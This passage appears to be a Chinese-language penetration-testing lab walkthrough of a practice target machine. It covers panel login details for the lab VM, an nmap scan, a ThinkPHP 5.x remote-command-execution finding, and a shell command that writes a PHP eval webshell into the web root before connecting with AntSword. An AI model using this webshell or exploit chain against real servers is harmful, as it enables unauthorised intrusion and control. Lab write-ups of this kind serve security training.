 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-26.png)

#### 4、开放web服务

**开启Web服务：**
宝塔后台登陆地址及密码：

```c
http://靶机外网ip:8888/a768f109/
账号：eaj3yhsl，密码：41bb8fee，根据靶机实际ip，配置即可
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-28.png)

### Target1

##### 信息收集

首先nmap扫描一下192.168.80.1这个网段开放了那些服务。

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-27.png)

##### 漏洞发现

web网站是TP5框架

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-29.png)



Thinkphp5.x工具测试，确认存在漏洞。

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-30.png)

命令执行，打印当前路径

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-31.png)

##### 漏洞利用

通过命令可以直接写入后门（一键功能getshell用不了）

```shell
echo '<?php @eval($_POST[x]);?>' > /www/wwwroot/ThinkPHP/public/shell.php
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-32.png)

访问一下shell.php 验证写入成功！

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-33.png)

##### getshell

蚁剑连接

